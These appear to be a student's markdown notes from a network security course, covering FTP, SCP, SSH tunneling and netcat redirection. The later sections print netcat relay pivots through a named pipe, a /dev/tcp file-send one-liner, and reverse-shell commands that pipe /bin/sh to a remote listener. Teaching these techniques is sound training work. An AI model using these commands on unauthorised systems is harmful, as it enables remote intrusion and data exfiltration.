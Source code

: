 # Day 4
# Data Transfer, Movement and Redirection

## Data Transfer
  Methods
  * TFTP
  * FTP
      * Active
      * Passive
  * SFTP
  * SCP

  ### TFTP
  Trivial File Transfer Protocol
  * RFC 1350 Rev2
  * UDP transport
  * insecure
  * no terminal communication()

  ### FTP
  * RFC 959
  * TCP transport across multiple connections
  * Control Conection (21)/ Data Connection (20)
  * insecure
  * Anonymous login

  Commands:

      Passive  # will turn Passive mode on or off
      # Passive vs. Active mode will determine who initiated the connection
      # Active : ftp server will initiate the connection
      # Passive: Our host machine will initiate the conncection.
      get <file>
      wget -r ftp://<ip>  # Run instead of logging into box. 
      
  ### SFTP
  Secure File Transfer Protocol
  * TCP transpot (TCP port 22)
  * adds FTP like services to SSH
  * Interactive terminal access
  * Authentication through sign in

  ### FTPS
  File Transfer Prototcol Secure
  * TCP transport ( TCP port 443 )
  * Adds SSL/TLS encryption to FTP
  * Authentication
  * Interactive Terminal access

  ### SCP
  Secure Copy Protocol
  * TCP Transport (TCP port 22)
  * non interactive
  * Authentication

  Download a file from a remote directory to a local Directory

    $ scp student@172.16.82.106:secretstuff.txt /home/student

  Upload a file to a remote directory from a local directory

    $ scp secretstuff.txt student@172.16.82.106:/home/student

  Copy a file from a remote host to a separate remote host

    $ scp -3 student@172.16.82.106:/home/student/secretstuff.txt student@172.16.82.112:/home/student


#### SCP Syntax w/ alternate SSHD (Alternate ssh port):
  * Download a file from a remote directory to a local directory

        $ scp -P 1111 student@172.16.82.106:secretstuff.txt /home/student

  * Upload a file to a remote directory from a local directory

        $ scp -P 1111 secretstuff.txt student@172.16.82.106:/home/student

#### SCP Syntax through a tunnel

ssh student@172.16.82.106 -L 1111:localhost:22 -NT

* Download a file from a remote directory to a local directory

      $ scp -P 1111 student@localhost:secretstuff.txt /home/student

* Upload a file to a remote directory from a local directory

      $ scp -P 1111 secretstuff.txt student@localhost:/home/student


## Network Tunneling

## Traffic Redirection
Netcat Listener always needs to be set up first
### NETCAT: Client to listener file transfer

    Client (sends file): nc 10.2.0.2 9001 < file.txt
    Listener (receive file): nc -l -p 9001 > newfile.txt
    
### NETCAT: Listener to Client file transfer

    Listener (sends file): nc -l -p 9001 < file.txt
    Client (receive file): nc 10.2.0.2 9001 > newfile.txt


### NETCAT Relay Demos

On Client Relay:
    
    # Internet host: 
    nc 10.1.0.2  9002 (middle ip from internet host)
    
    # Middle Man: 
    mknod mypipe p
    nc -lp 9002 0< mypipe | nc -lp 9001 1> mypipe  ## Relay on the middle man

    # End point
    nc 10.2.0.2 9001 (Ip of middle man from end point)
    
  ####  Reverse setup
  
  * Internet host

         nc -lp 1234
  * end host

        nc -lp 4321
  * Middle man
    
        mknod mypipe p
        nc 10.10.0.40 1234 0<mypipe | nc 192.168.1.10 4321 1> mypipe
    
On Listener2 (sends info):

    nc -l -p 9002 < infile.txt

On Listener1 (receives info):

    nc -l -p 9001 > outfile.txt

Writes the output to listener1 and listener2 through the named pipe


### File Transfer with /dev/tcp

On the receiving box:

    nc -l -p 1111 > file.txt

On the sending box:

    cat file.txt > /dev/tcp/10.2.0.2/1111

This method is useful for host that does not have NETCAT available.

### Reverse shell using NETCAT

When shelled into the remote host using -c :

    nc -c /bin/sh <your ip> <any unfiltered port>

You could even pipe BASH through NETCAT.

    /bin/sh | nc <your ip> <any unfiltered port>

Then listen for the shell.

    nc -l -p <same unfiltered port> -vvv

You can also listen using the -e with NETCAT.

    nc -l -p <any unfiltered port> -e /bin/bash
